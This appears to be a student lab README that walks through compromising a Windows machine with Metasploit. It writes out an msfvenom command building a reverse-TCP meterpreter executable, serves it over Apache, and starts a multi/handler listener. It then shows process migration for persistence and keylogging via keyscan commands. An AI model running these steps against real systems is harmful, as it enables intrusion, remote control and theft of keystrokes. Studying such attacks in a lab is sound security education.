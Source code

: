 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

Find the attackers ip address using ifconfig

## OUTPUT:

![Screenshot 2024-04-24 083309](https://github.com/kanagavel7/Compromising-windows-using-Metasploit/assets/162578954/ecf969db-aadb-442e-80e6-cb8c52a2fd57)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

## OUTPUT:

![Screenshot 2024-04-24 083358](https://github.com/kanagavel7/Compromising-windows-using-Metasploit/assets/162578954/1e457aef-1191-441c-b4b1-2c23802c6e00)

copy the fun.exe into the apache /var/www/html folder

## OUTPUT:

![Screenshot 2024-04-24 083508](https://github.com/kanagavel7/Compromising-windows-using-Metasploit/assets/162578954/eb315bc1-979f-46da-9c17-5c468a25be64)

Start apache server sudo systemctl apache2 start

## OUTPUT:

![Screenshot 2024-04-24 083540](https://github.com/kanagavel7/Compromising-windows-using-Metasploit/assets/162578954/1279d483-bf51-4947-b117-f771b3625e6b)

Check the status of apache2

## OUTPUT:

![Screenshot 2024-04-24 083647](https://github.com/kanagavel7/Compromising-windows-using-Metasploit/assets/162578954/378f2394-d6e6-43cb-9484-75fe1d0ea54a)

Invoke msfconsole:

## OUTPUT:

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

![Screenshot 2024-04-24 083808](https://github.com/kanagavel7/Compromising-windows-using-Metasploit/assets/162578954/89fde685-ac81-4dfd-a4c7-bde9265dfdd4)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.

![Screenshot 2024-04-24 083849](https://github.com/kanagavel7/Compromising-windows-using-Metasploit/assets/162578954/7894f039-2c76-47ef-a58a-485989f6a127)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![Screenshot 2024-04-24 083917](https://github.com/kanagavel7/Compromising-windows-using-Metasploit/assets/162578954/ff306f73-11a8-46ec-be65-24acaf6cb7c5)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

![Screenshot 2024-04-24 084002](https://github.com/kanagavel7/Compromising-windows-using-Metasploit/assets/162578954/50debf1f-d924-4a85-8f12-a70c2ea1da1e)

Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![Screenshot 2024-04-24 084044](https://github.com/kanagavel7/Compromising-windows-using-Metasploit/assets/162578954/fab1602f-8ac9-4058-a685-ecec3281a3e6)

keyscan_dump Shows the keystrokes captured so far

![Screenshot 2024-04-24 084121](https://github.com/kanagavel7/Compromising-windows-using-Metasploit/assets/162578954/5b526710-12b7-4748-980e-fa7c8bca41bb)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
